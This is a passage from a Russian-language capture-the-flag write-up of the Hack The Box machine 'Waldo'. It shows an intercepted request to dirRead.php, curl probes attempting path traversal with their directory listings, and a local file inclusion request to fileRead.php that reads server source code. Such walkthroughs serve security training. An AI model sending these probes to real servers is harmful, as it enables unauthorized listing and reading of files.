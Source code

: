 [![port80-browser-2.png]({{ "/img/htb/boxes/waldo/port80-browser-2.png" | relative_url }})]({{ "/img/htb/boxes/waldo/port80-browser-2.png" | relative_url }})
{: .center-image}

4\. возврат на главную страницу и автоматическое обновление листинга списков (`dirRead.php`):
```http
POST /dirRead.php HTTP/1.1
Host: 10.10.10.87
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.87/list.html
Content-type: application/x-www-form-urlencoded
Content-Length: 13
DNT: 1
Connection: close

path=./.list/
```

## Path Traversal + LFI
Для начала попробуем воспользоваться скриптом `dirRead.php` в корыстных целях, а именно — запросить листинг произвольной директории.

Рабочая директория возвращается без проблем:
```text
root@kali:~# curl -s -X POST -d 'path=.' http://10.10.10.87/dirRead.php
[".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
```

Корень определен сюда же (это было видно еще из Burp-запросов):
```text
root@kali:~# curl -s -X POST -d 'path=/' http://10.10.10.87/dirRead.php
[".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
```

И вырваться назад с помощью `../` не получается:
```text
root@kali:~# curl -s -X POST -d 'path=../../' http://10.10.10.87/dirRead.php
[".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
```

Значит, стоят фильтры строк пути. Теперь настала очередь в корыстных целях воспользоваться скриптом `fileRead.php`, а именно — запросить содержимое произвольного файла.

Посмотрим на исходники `dirRead.php` для определения метода фильтрации (для того, чтобы получить код в читаемом виде, отлично подойдет [jq](https://stedolan.github.io/jq/ "jq") — топовый JSON-процессор):
```text
root@kali:~# curl -s -X POST -d 'file=dirRead.php' http://10.10.10.87/fileRead.php | jq -r .'file'
```
